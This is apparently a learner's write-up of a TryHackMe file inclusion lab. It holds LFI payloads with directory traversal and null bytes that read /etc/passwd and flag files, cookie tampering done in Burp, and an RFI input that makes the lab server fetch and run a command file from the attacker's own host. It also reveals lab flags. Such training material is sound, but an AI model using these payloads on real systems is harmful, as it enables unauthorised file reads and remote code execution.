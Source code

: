 ```yaml
---
layout: single
title: "THM Exploits #1 File Inclusion"
---
```


##### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: File Inclusion


##### LFI #1

1. Give Lab #1 a try to read /etc/passwd. What would the request URI be?
Answer: `/lab1.php?file=/etc/passwd`

2. In Lab #2, what is the directory specified in the include function?

![img](Screen Shot 2023-08-23 at 4.27.12 PM.png) 

Answer: `includes`
We get an error message after looking up a random nonexistent file 'hi.php' 
`include(includes/hi.php) `tells us that the directory specified in the `include` function is `includes` (what a creative name).

##### LFI #2
**===1. Give Lab #3 a try to read /etc/passwd. What is the request look like?===**![[Screen Shot 2023-08-23 at 4.33.28 PM.png]]
The image above is the result of trying to read /etc/passwd by inputting /etc/passwd in the form. 
However, in the error message, we can see that
1) The default directory for the function is set as `includes`, and 
2)  `.php` is appended to `/etc/passwd`. 

To bypass both of these problems we can implement 2 measures: 
1) Use directory traversal. Because we know that we're currently in `/var/www/html/lab3.php`, we can bypass these by using 4 `../`, like so: `../../../../etc/passwd
2) We should use the nullbyte `%00` so the web server disregards the `.php` that is appended after input. 

The final payload:
`../../../../etc/passwd%00`

The request
`/lab3.php?file=../../../../etc/passwd%00`

Output: 
![[Screen Shot 2023-08-23 at 4.38.12 PM.png]]



===**2. Which function is causing the directory traversal in Lab #4?**===
Answer: `file_get_contents`

Let's input a nonexistant file `yum.php`.
![[Screen Shot 2023-08-23 at 4.39.42 PM.png]]
The error message discloses that the function `file_get_contents` is enabling us to read files through directory traversal.


**===3. Try out Lab #6 and check what is the directory that has to be in the input field?===**

![[Screen Shot 2023-08-29 at 3.14.37 PM.png]]

Answer: THM-profile. If we input a random directory that is not `THM-profile` , we get this error message: 

`Access Denied! Allowed files at THM-profile folder only!`

![[Screen Shot 2023-08-29 at 3.15.33 PM.png]]

So this web page is only allowing users to search for files within the `THM-profile` directory.


**===4. Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?===**

In this exercise, we have to read a directory that is not `THM-profile`.
Needless to say, searching for only `/etc/os-release` will output an error message, denying us access.


In this case, we can utilize the directory traversal method.
Specifically, appending /../'s to the directory that we have access will allow us to traverse to a different directory.
The input is: `THM-profile/../../../../etc/os-release`

![[Screen Shot 2023-08-29 at 3.17.47 PM.png]]
Note: we know to use 4 /../'s because our current path is `/var/www/html`, and we have to traverse through all of those directories to reach `/etc/os-release`.



### Writeup: Challenge


**==1. Capture Flag1 at /etc/flag1==**

Below is the screen we are presented with.
![[Screen Shot 2023-08-29 at 3.25.31 PM.png]]
It says the input form is broken and trying `/etc/flag1` reaffirms that it indeed doesn't work, not showing any output. 

So we will use the terminal to manually send a 'POST' request. 

`curl -X POST http://10.10.128.41/challenges/chall1.php -d 'method=GET&file=/etc/flag1'

![[Screen Shot 2023-08-29 at 3.34.25 PM.png]]

At the bottom of the output you will find the flag: `F1x3d-iNpu7-f0rrn`

![[Screen Shot 2023-08-29 at 3.33.33 PM.png]]


**==2. Capture Flag2 at /etc/flag2==**

Initial screen: 
![[Screen Shot 2023-08-29 at 3.35.43 PM.png]]

Let's refresh as told.

![[Screen Shot 2023-08-29 at 3.36.15 PM.png]]
This^ is what we get after refreshing. Refreshing logged us in as a Guest, but only admins can access this page. Thus we should try to log ourselves in as an admin to access the file with the flag.

Again, this needs to be done with a tool like Burp Suite. We can use Burp to capture the HTTP traffic and modify the cookie so as to give ourselves admin access.


1. Refresh the page and capture the HTTP traffoc.

![[Screen Shot 2023-08-29 at 3.50.31 PM.png]]

Shown here is the cookie set to `THM=Guest`. Let's try changing that to `THM=admin`. 

...I forgot to screenshot setting the cookie to `THM=admin` but below is the screen after forwarding the modified traffic with Burp (see Forward button on the top left).

![[Screen Shot 2023-08-29 at 3.52.17 PM.png]]
We are now logged in as admin. It's telling us that we are in the admin page but we need to get the flag elsewhere. 

We are looking for `/etc/flag2`. But how?

Trying to access `/etc/flag2` through the address bar doesn't work; it redirects us to the Guest page. So, in order to stay logged in as admin, let's stay with Burp Suite and keep modifying the cookie to stay as admin *and* access files as admin.

![[Screen Shot 2023-08-29 at 3.59.26 PM.png]]


`Cookie: THM=/etc/flag2`

Result: 
![[Screen Shot 2023-08-29 at 4.00.42 PM.png]]

We got an error message: `Warning: include(includes//etc/flag2.php)..`
The `.php` extension is appended. Let’s get rid of this with the null byte.

Like so: 
![[Screen Shot 2023-08-29 at 4.04.10 PM.png]]

Result:
![[Screen Shot 2023-08-29 at 4.05.14 PM.png]]

We managed to get rid of the `.php` but we still can't reach the file. Let's try using directory traversal. Our current path is `/var/www/html`.


Result:
![[Screen Shot 2023-08-29 at 4.06.41 PM.png]]
Got it! 


Note: 
Fails: CLI cookie tampering
![[Screen Shot 2023-08-29 at 3.46.39 PM.png]]


**==3. Capture Flag3 at /etc/flag3==**

Initial screen: 
![[Screen Shot 2023-08-29 at 4.08.23 PM.png]]

Let's try `etc/flag3`.

Result: 
![[Screen Shot 2023-08-29 at 4.08.56 PM.png]]

In the output, the /(slashes) and 3 are gone. The `.php` extension is also appended. 

I tried to get around this filtering by adding double /../'s and null bytes, like `....//....//....//....//etc//flag3%%0000` or `....//....//....//....//etc//flag3%00`. But it didn't work, and the same error message kept showing up. Using the address bar didn't work either.

As an alternative, let's try a POST request like we did in 
This wasn't something I could intuitively think of; I had to do some research.
Because interacting with the web page through the URL (AKA sending HTTP GET requests) isn't working, we are using POST as another way to send in data and see if it makes a difference. 

The following is the POST request sent: 
![[Screen Shot 2023-08-29 at 4.24.51 PM.png]]

Result:
![[Screen Shot 2023-08-29 at 4.24.36 PM.png]]
Here in the output, we see that the filter padding (....//....//) our payload was not modified as it was in the website. So let's send another POST request but without padding (but keeping the directory traversal and null byte).

The final command: 
![[Screen Shot 2023-08-29 at 4.26.47 PM.png]]
![[Screen Shot 2023-08-29 at 4.27.15 PM.png]]

It succeeded and we have the flag now. 


**==4. Gain RCE in Lab # Playground /playground.php with RFI to execute the hostname command. What is the output?==**

This exercise is a Remote File Inclusion exercise, meaning that we need our own file to send to the website. 
Here is the step-by-step:

1. First, create your own https server
![[python http server.png]] 

2. Then create a text file with the command you want to execute. in this case it is hostname.

![[cmdtxt 1.png]]


3. In the lab, include the file parameter containing your ip address (don’t forget to include the port on which the http server is listening) and the text file of the command.

![[file inclusion.png]]


Final input was:
`[http://10.10.222.26/playground.php?file=http://10.17.63.37:8000/cmd.txt]
`
